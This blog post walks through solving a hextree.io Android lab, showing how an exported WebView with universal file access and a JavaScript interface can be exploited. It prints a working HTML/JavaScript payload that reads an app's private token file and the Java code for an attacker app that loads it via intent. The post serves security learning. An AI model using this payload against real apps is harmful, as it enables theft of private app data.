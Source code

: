 ```yaml
---
layout: post
title: 'Exploiting WebView Vulnerabilities: Bypassing SOP to Access Internal App Files'
date: 2025-03-14 22:52 +0200
categories: Mobile
tags: Android Mobile
---
```

Have you ever imagined being able to steal internal files from an Android application, such as `.db` files or other sensitive data? In this article, I'll walk you through how it's done by solving a lab from [hextree.io](https://www.hextree.io/).

## Initial Analysis
First, I installed the target application on the Android Studio emulator and decompiled it using JADX to analyze its `AndroidManifest.xml` file. I quickly noticed a WebView activity that was marked as `exported="true"`
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*pHf6TNL8y3T6UM5yiNwczg.png)
To investigate further, I examined the activity’s **onCreate()** method.
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Hr0eRjV2F-IaaAPn-qb_gg.png)

## Breaking Down the onCreate() Method
1. The app retrieves an extra string value `URL` using `getIntent()`.
2. If the value is `null`, it defaults to loading `https://www.hextree.io`.
3. It then configures WebView settings with the following:
```java
settings.setJavaScriptEnabled(true);
settings.setAllowFileAccessFromFileURLs(true);
settings.setAllowFileAccess(true);
settings.setAllowUniversalAccessFromFileURLs(true);
```
These settings are highly dangerous, especially:
- `setAllowUniversalAccessFromFileURLs(true)`, which allows WebView to load files from multiple sources, including `https://`, `content://`, and `file://` … etc
- 
4. This could enable attackers to read local files through a malicious HTML page, or gain **RCE**.
The app generates a random UUID and writes it to a file named `token.txt`.
5. It registers a **JavaScript Interface** called `"hextree"`, mapping it to a `JsObject` class.
6. Finally, it loads the provided `URL`.
## Examining the JavaScript Interface
![](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*M9jY8xfe8SSjD_Ua7srZNA.png)
The `JsObject` class contains an `authCallback()` function that:
- Accepts a `token` as an argument.
- Reads the `token.txt` file and compares its value.
- If the token matches, it triggers the `success()` method (which is our target).
- Otherwise, it does nothing.
## Crafting the Exploit
Since the application allows universal file access and provides a JavaScript interface, we can exploit it by loading an external URL with a **malicious JavaScript payload**.
### 1. The JavaScript Payload
The following script will steal the token from `token.txt` and pass it to the `authCallback()` function:
```html
<script>
  onload = () => {
    let x = new XMLHttpRequest();
    x.onload = () => hextree.authCallback(x.responseText.trim());
    x.open("GET", "file:///data/data/io.hextree.attacksurface/files/token.txt");
    x.send();
  };
</script>
```
**Explanation:**
- The script is executed on page load (`onload` event).
- It makes an XHR request to retrieve the contents of `token.txt`.
- Once loaded, it trims the response and sends it to `authCallback()`, triggering the success condition.

Save this payload as exploit.html inside the app’s internal storage: `file:///data/data/io.hextree.attacksurface/files/exploit.html`

### 2. Deploying the Attack
To launch the exploit, we need to create an **attack app** that sends an intent to the vulnerable WebView activity, instructing it to load our malicious HTML file.<br>
**The Exploit App Code:**
```java
 @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.webviews.Flag40WebViewsActivity");
        String exploitUrl = "file:///data/data/io.hextree.attacksurface/files/exploit.html";
        intent.putExtra("URL", exploitUrl);
        startActivity(intent);

    }
```
**How It Works:**
1. The app **targets the vulnerable WebView activity** by specifying its package and class name.
2. It sets `exploitUrl` to the path of our malicious HTML payload.
3. It **passes** this URL as an extra string (`URL`) and launches the activity.

Once the exploit app is launched, the vulnerable WebView loads our payload, reads `token.txt`, and successfully triggers `authCallback()`, granting us access to the **flag**.
![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*DbHLZoKjkEFS_dPG17vXbQ.png)

This demonstrates a serious **WebView vulnerability** in Android apps, showing how insecure settings can be exploited to steal internal files.

**THANKS FOR READING ❤️**

<script src="https://giscus.app/client.js"
        data-repo="0xk3r0/0xk3r0.github.io"
        data-repo-id="R_kgDOOGw3bQ"
        data-category="General"
        data-category-id="DIC_kwDOOGw3bc4CobRY"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="dark"
        data-lang="en"
        crossorigin="anonymous"
        async>
</script>
